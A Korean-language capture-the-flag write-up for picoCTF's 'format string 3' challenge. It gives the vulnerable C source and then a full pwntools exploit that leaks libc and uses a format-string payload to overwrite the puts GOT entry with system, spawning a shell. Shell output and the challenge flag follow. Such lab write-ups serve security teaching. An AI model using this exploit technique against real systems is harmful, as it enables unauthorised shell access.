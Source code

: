 # [format string 3](https://play.picoctf.org/practice/challenge/449?category=6&originalEvent=73&page=1)

**Description**
> This program doesn't contain a win function. How can you win?
<br />

**Source Code:**
```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
        puts("Howdy gamers!");
        printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
        char *all_strings[MAX_STRINGS] = {NULL};
        char buf[1024] = {'\0'};

        setup();
        hello();

        fgets(buf, 1024, stdin);
        printf(buf);

        puts(normal_string);

        return 0;
}
```
<br />

**Binary Protections:**
```yaml
format-string-3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter./ld-linux-x86-64.so.2,
for GNU/Linux 3.2.0, BuildID[sha1]=54e1c4048a725df868e9a10dc975a46e8d8e5e92, not stripped

[*] '/home/kali/pico/format_string_3/format-string-3'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

## Exploitation
문제에서 제공되는 정보 및 취약점을 취합해보면 다음과 같습니다.
```text
1. setvbuf 주소 제공
2. print(buf) 호출 -> FSB 취약점 발생
3. puts("/bin/sh")
4. Partial RELRO
```
취합된 정보를 토대로 공격 과정을 정리하면, 문제에서 제공되는 `setvbuf`의 주소를 통해 `system`의 실제 주소를 계산할 수 있습니다. 바이너리는 Partial RELRO 상태이므로 GOT 조작이 가능합니다. 또한 `print(buf)` 호출 시 FSB 취약점이 발생합니다. 따라서 해당 취약점을 활용하여 `puts`의 GOT 엔트리를 `system`의 주소로 덮어쓴다면, 이후 `puts(normal_string)` 호출이 `system("/bin/sh")`로 이어져 최종적으로 쉘을 획득할 수 있을 것입니다.
<br />
<br />

### 1. `system` 주소 구하기
```bash
$ readelf -s libc.so.6 | grep "setvbuf"
  1300: 000000000007a3f0   608 FUNC    WEAK   DEFAULT   16 setvbuf@@GLIBC_2.2.5
$ readelf -s libc.so.6 | grep "system"
  1511: 000000000004f760    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
```
위 오프셋을 가지고 `libc_base`, `system` 주소를 계산할 수 있습니다.

```python
from pwn import *

p = process("./format-string-3")

p.recvuntil(b"0x")

libc_base = int(p.recv(14), 16) - 0x7a3f0
libc_system = libc_base + 0x4f760
log.info(f"libc_base: {libc_base: #x}")
log.info(f"libc_system: {libc_system: #x}")

p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process '/home/kali/pico/format_string_3/format-string-3': pid 1111
[*] libc_base:  0x7f255443a000
[*] libc_system:  0x7f2554489760
[*] Switching to interactive mode
$
```
<br />

### 2. 메모리 유출로 오프셋 구하기
```bash
$ ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fad387c23f0
AAAAAAAA%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p
AAAAAAAA0x7fad38920963|0xfbad208b|0x7fffc740cbb0|0x1|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x4141414141414141
/bin/sh
```
`AAAAAAAA`의 오프셋은 파이썬으로 자동화하여 다음과 같이 구할 수 있습니다.
```python
data = ("AAAAAAAA0x7fad38920963|0xfbad208b|0x7fffc740cbb0|0x1|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x4141414141414141")
data = data.split("|")

target = "0x4141414141414141"

if target in data:
    idx = data.index(target)
    print(f"offset: {idx+1}")
```
```bash
$ python3 test.py
offset: 38
```
<br />

### 3. GOT 덮어쓰기
```yaml
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/kali/pico/format_string_3/format-string-3:
GOT protection: Partial RELRO | Found 4 GOT entries passing the filter
[0x404018] puts@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
...
```
pwndbg로 확인할 결과 puts의 GOT 주소는 `0x404018`입니다. 획득환 정보를 가지고 페이로드를 작성할 수 있습니다.

```python
from pwn import *

context.arch = "amd64"

p = process("./format-string-3")
# p = remote("rhea.picoctf.net", 51563)

p.recvuntil(b"0x")

libc_base = int(p.recv(14), 16) - 0x7a3f0
libc_system = libc_base + 0x4f760
log.info(f"libc_base: {libc_base: #x}")
log.info(f"libc_system: {libc_system: #x}")

pay = fmtstr_payload(38, {0x404018:libc_system})

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process './format-string-3': pid 1336
[*] libc_base:  0x7f89a0dd4000
[*] libc_system:  0x7f89a0e23760
[*] Switching to interactive mode
$
                                                                                               c                              \x8b         \xf0                      \x01                                                                 \x00                                                                                    \x00aaaaba\x18@@$
$ pwd
/home/kali/pico/format_string_3
```
<br />

## FLAG
```bash
$ python3 test.py
[+] Opening connection to rhea.picoctf.net on port 51563: Done
[*] libc_base:  0x7a9afecb0000
[*] libc_system:  0x7a9afecff760
[*] Switching to interactive mode
$
                                                                                               c                         \x8b                                                                                    \x01                                       \x00      \x00aaaabaa\x18@@$
$ ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_7a2369d3}$
```
